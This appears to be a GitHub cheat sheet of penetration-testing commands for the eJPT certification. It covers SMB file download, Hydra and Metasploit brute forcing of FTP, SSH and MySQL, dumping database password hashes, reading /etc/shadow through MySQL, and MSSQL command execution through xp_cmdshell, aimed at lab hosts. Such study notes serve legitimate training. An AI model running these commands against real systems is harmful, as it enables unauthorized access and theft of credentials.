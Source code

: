 # EJPT
##Notes and commands cheat sheet for the EJPT##


**SMBMap**

```smbmap -u "(username)" -p "(password)" -H "(IP address)```

Downloading file using SMB Map

```smbmap -u administrator -p smbserver_771 -H 10.4.244.255 --download "c$\flag.txt```

**Brute forcing FTP using Hydra
**
```hydra -L (Username list) -P (Password list) (IP Address) ftp```

**SSH - Getting SSH host key using Nmap
**
```nmap (IPaddress) -p 22 --script-args ssh_hostkey=full```
Save the host key for later

**Brute Forcing SSH with Hydra
**
```hydra -L (username) -P (password list) (IP address) ssh```

**Brute Forcing SSH login with Metasploit
**
```Use ssh/ssh_login```

**MYSQL**

Logging into Mysql on remote host

```mysql -h (IP address) -u root```

Using database

```show databases ---then type semicolon```

```use (database name);```

```select count(*) from authors;```

```select * from authors```

Finding Writable directories

Metasploit -- scanner/mysql/mysql_writable_dirs

Finding hashes

```use auxiliary/scanner/mysql/mysql_hashdump```

Getting the full etc/shadow file

```select load_file("/etc/shadow");```

Dictionary attack against Mysql

Use Metasploit -- auxiliary/scanner/mysql/mysql_login

Password File -- /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt

**MSSQL**

Nmap scripts

```nmap (ip address) -p (port number) --script ms-sql-info```

```nmap (ip address) -p (port number) --script ms-sql-ntlm-info --script-args mssql.instance-port=1433```

```nmap (ip address) -p (port number) --script ms-sql-brute --script-args userdb=/root/Dessktop/wordlist/common_users.txt,passdb=/root/Dekstop/wordlist/100-common-passwords.txt```

```nmap (ip address) -p (port number) --script ms-empty-password```

```nmap (ip address) -p (port number) --script ms-sql-query --script-args mssql.username=admin,mssql.password=anamaria,ms-sql-query.query="SELECT * FROM master..syslogins" -oN output.txt```

```nmap (ip address) -p (port number) --script ms-sql-dump-hashes --script-args mssql.username=admin,mssql.password=anamaria```

```nmap (ip address) -p (port number) --script ms-sql-xp-cmdshell.cmd="type c:\flag.txt ```


**RPCClient
**
```rpcclient -U "" -N 192.168.0.0```
Useful commanands within
Enumdomusers
Lookupnames -- example lookupnames admin
